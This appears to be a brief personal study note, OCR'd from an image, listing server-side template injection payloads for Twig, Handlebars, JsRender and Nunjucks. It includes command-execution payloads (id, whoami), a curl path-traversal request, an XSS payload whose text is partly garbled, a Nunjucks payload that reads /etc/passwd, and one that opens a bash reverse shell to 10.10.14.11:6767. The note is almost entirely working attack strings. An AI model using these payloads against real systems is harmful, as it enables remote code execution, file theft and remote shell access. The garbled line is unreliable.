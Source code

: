 Daily Notes : Day 50 
SSTI PAYLOADS - Part 2 

Twig :
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("whoami")}}

Handlebar path traversal:
curl -X 'POST' -H 'Content-Type: application/json' --data-binary $'{\"profile\":{"layout\": \"./../routes/index.js\"}}' 'http://ctf.domain.com:9090'

JsRender (NodeJS):
{{:%22test%http://22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}

NUNJUCKS (NodeJS) :
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
{{range.constructor("return global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/10.10.14.11/6767 0>&1\"')")()}}
